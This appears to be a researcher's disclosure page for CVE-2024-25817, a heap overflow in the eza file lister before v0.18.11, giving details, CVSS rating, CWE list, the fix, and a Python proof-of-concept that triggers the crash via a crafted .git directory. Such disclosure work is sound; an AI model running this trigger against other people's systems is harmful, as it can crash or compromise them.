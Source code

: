 ```yaml
---
title: "CVE-2024-25817"
date: '2024-02-05'
lastmod: '2024-06-10'
tags: ['PWN', 'Heap', 'CVE']
draft: false
summary: "In eza, there exists a potential heap overflow vulnerability, first seen when using Ubuntu for Raspberry Pi series system, on `ubuntu-raspi` kernel, relating to the `.git` directory."
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 Summary

In `eza` [^1] (before `v0.18.11`), there exists a heap overflow vulnerability, first seen when using Ubuntu for Raspberry Pi series system, on `ubuntu-raspi` kernel, relating to the `.git` directory.

## 0x02 Details

The vulnerability seems to be triggered by the `.git` directory in some projects. This issue may be related to specific files, and the directory structure also plays a role in triggering the vulnerability. Files/folders that may be involved in triggering the vulnerability include `.git/HEAD`, `.git/refs`, and `.git/objects`.

## 0x03 PoC - If you have Raspberry Pi 4B bare metal machine

**If you don't have Raspberry Pi bare metal, you can try emulate a ubuntu for raspberry system in virtual machine.**

You just need install any one of Ubuntu for Raspberry Pi series system in your bare metal machine.

### 1x01 Tested platform info

Configuration in `Raspberry Pi 4B` bare metal machine:

```bash
eza version: v0.18.10 [+git]

Linux lux 5.15.0-1049-raspi #52-Ubuntu SMP PREEMPT Thu Mar 14 08:39:42 UTC 2024 aarch64 aarch64 aarch64 GNU/Linux

Distributor ID: Ubuntu
Description: Ubuntu 22.04.4 LTS
Release: 22.04
Codename: jammy
```

> [!IMPORTANT]
> So far I have only tested the `Ubuntu 22.04.4 LTS Server` and confirmed that this vulnerability exists. I haven't test other System/Raspberry Pi yet.

### 1x02 Steps

Install `eza (<=v0.18.10)` in Raspberry Pi. Process can refer to the official [wiki](https://github.com/eza-community/eza/blob/main/INSTALL.md).

```python:poc.py
#!/usr/bin/env python3

import os
import shutil
import subprocess

# Step 1: Clone the repository
repo_url = "https://github.com/umami-software/umami.git"
subprocess.run(["git", "clone", repo_url])

# Step 2: Checkout to the specific commit contain the special '.git' directory that can trigger the vulnerability
repo_dir = "umami"
commit_hash = "a38baa5"
os.chdir(repo_dir)
subprocess.run(["git", "checkout", commit_hash])

# Step 3: Create a directory for the vulnerability related files
os.chdir("..")
os.mkdir("suspicious")
shutil.move(os.path.join(repo_dir, ".git"), "suspicious/.git")

# Step 4: Remove unrelated files/directories
shutil.rmtree(repo_dir)

# Step 5: Trigger the vulnerability
subprocess.run(["eza", "-l", "--git", "suspicious/.git"])
```

<center>
  <Image alt="overflow" src="https://s11.ax1x.com/2024/02/07/pF1fNkT.png" width={1135} height={126} />
</center>

> [!NOTE]
> The picture shows my test environment. In actual testing, the vulnerability can be triggered by just using the above script.

## 0x04 Impact

Arbitrary code execution.

## 0x05 Severity using CVSS

Severity: `High 8.4`<br />
Vector string: `CVSS:3.1/AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

## 0x06 Weaknesses

 - Heap-based Buffer Overflow (CWE-122)
 - Improper Restriction of Operations within the Bounds of a Memory Buffer
 (CWE-119)
 - Missing Release of Memory after Effective Lifetime (CWE-401)
 - Improper Resource Shutdown or Release (CWE-404)
 - Improper Initialization (CWE-665)

## 0x07 GitHub Advisories

 - GitHub Advisories.[^3]

## 0x08 NIST

 - National Vulnerability Database.[^4]

## 0x09 Solution

Update eza to `0.18.11` or higher version.

[^1]: [eza](https://github.com/eza-community/eza/tree/main): A modern,
maintained replacement for ls.
[^2]: Download Ubuntu for Raspberry Pi image file from [this site](https://ubuntu.com/download/raspberry-pi).
[^3]: [GitHub Advisories](https://github.com/advisories/GHSA-3qx3-6hxr-j2ch)
[^4]: [CVE-2024-25817](https://nvd.nist.gov/vuln/detail/CVE-2024-25817)


